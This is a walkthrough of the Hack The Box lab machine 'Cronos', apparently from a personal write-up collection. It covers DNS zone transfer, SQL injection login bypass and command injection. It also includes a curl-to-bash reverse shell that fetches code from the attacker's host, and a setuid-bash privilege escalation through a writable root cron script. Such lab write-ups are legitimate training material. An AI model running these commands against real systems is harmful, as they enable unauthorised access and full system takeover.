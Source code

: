 # Cronos

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.211
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 14:42 EDT
Nmap scan report for 10.129.227.211
Host is up (0.0083s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

### DNS

I poked DNS a little bit before going to HTTP, to see if we can find out any hidden domains or something. Based on standard HTB domains, I guessed that it was `cronos.htb` and it worked.

```
$ dig axfr @10.129.227.211 cronos.htb

; <<>> DiG 9.18.8-1-Debian <<>> axfr @10.129.227.211 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 3 msec
;; SERVER: 10.129.227.211#53(10.129.227.211) (TCP)
;; WHEN: Sat May 06 14:44:15 EDT 2023
;; XFR size: 7 records (messages 1, bytes 203)
```

### Cronos.htb

Port 80 reveals the default Apache2 page:

<figure><img src="../../../.gitbook/assets/image (569).png" alt=""><figcaption></figcaption></figure>

After adding `cronos.htb` to the `/etc/hosts` file, this page changes:

<figure><img src="../../../.gitbook/assets/image (570).png" alt=""><figcaption></figcaption></figure>

Checking the page source reveals this is a Laravel application.

<figure><img src="../../../.gitbook/assets/image (577).png" alt=""><figcaption></figcaption></figure>

### SQLI Login Bypass --> RCE

Earlier, we also found an `admin.cronos.htb` through DNS. When visited, it just shows a login page:

<figure><img src="../../../.gitbook/assets/image (552).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to some kind of injection. I ran `sqlmap` on the login request and found that it might be vulnerable to time-based SQL injection. That also means we can bypass this login page by doing basic injection. When we login, we see that it is a really basic application:

<figure><img src="../../../.gitbook/assets/image (594).png" alt=""><figcaption></figcaption></figure>

This is obviously vulnerable to command injection, which we can find quite easily:

<figure><img src="../../../.gitbook/assets/image (597).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell using `curl 10.10.14.13/shell.sh|bash`.&#x20;

<figure><img src="../../../.gitbook/assets/image (613).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MySQL Creds

We can find a `config.php` file containing some credentials in the directory that we spawn in.

```php
www-data@cronos:/var/www/admin$ ls
config.php  index.php  logout.php  session.php  welcome.php
www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

We can keep this for now since we don't know if it'll come into play later. There's one user present in this machine:

```
www-data@cronos:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 May 10  2022 .
drwxr-xr-x 23 root   root   4096 May 10  2022 ..
drwxr-xr-x  4 noulis noulis 4096 May 10  2022 noulis
```

We can easily grab the user flag from this.&#x20;

### Laravel Cronjob

Running LinPEAS reveals this:

<figure><img src="../../../.gitbook/assets/image (593).png" alt=""><figcaption></figcaption></figure>

The `root` user was running a PHP file called `artisan` that we had write access to. So we just need to append some commands to the top. We can edit it to include this line:

```php
exec("chmod u+s /bin/bash");
```

Wait for a little bit, and the script should execute. We can then easily get a `root` shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (605) (1).png" alt=""><figcaption></figcaption></figure>
